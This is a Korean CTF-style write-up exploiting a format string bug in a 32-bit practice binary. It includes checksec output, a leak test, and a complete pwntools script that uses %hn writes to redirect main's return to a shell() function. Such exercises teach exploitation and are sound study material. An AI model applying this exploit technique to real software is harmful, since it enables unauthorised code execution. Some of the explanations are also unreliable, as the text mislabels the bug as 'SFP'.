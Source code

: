 
- 분석
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/pwnable/FSB_32]
└─$ checksec ./FSB_32_shell
[*] '/home/foo1/Desktop/kknock/pwnable/FSB_32/FSB_32_shell'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Partial RELRO이므로 SFP 가능

`printf(buf);` 형식지정자를 명시하지 않아 SFP 취약점 발생, 실제로 테스트해보면 알 수 있음
```sh
┌──(foo1㉿main-server)-[~/Desktop/kknock/pwnable/FSB_32]
└─$ ./FSB_32_shell 
0xffd328c8
%p %p %p %p %p %p %p    
0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0xa 0xc00000
```

---

main의 ret 위치에 shell()의 주소로 변조하면 됨
이때, SFP를 이용하여 `%1$hn`이와 같은 형태로 변조시킴

%n도 특정 위치에 값을 저장할 수 있게 만들지만, 넣어야하는 값이 1억회 이상의 길이를 가지고 있으므로 더 작은 단위로 나누기 위해 %hn을 사용

아래와 같이 비트마스킹을 통해 주소값을 상위 주소, 하위 주소로 분리함
```python
shell_high_order=(shell_syb>>16)&0xFFFF
shell_low_order=shell_syb&0xFFFF
```

---

- exploit
x86 이므로 아래와 같은 스크립트로 공격할 수 있음
```python
from pwn import *

p=process("./FSB_32_shell")
#p=gdb.debug("./FSB_32_shell")
e=ELF("./FSB_32_shell")
context.log_level='DEBUG'

shell_syb=e.symbols["shell"] #0x080491a6
shell_high_order=(shell_syb>>16)&0xFFFF
shell_low_order=shell_syb&0xFFFF

payload=b''

buf_addr=int(p.recv(11)[2:-1],16)
buf_size=0xd4
payload+=p32(buf_addr+buf_size+2)
payload+=p32(buf_addr+buf_size)

payload+=b'%'+str(shell_high_order-len(payload)).encode()+b'c'  #b'%2044c'
payload+=b'%1$hn'
payload+=b'%'+str(shell_low_order-shell_high_order).encode()+b'c'   #b'%35234c'
payload+=b'%2$hn'

p.send(payload)

p.interactive()
```
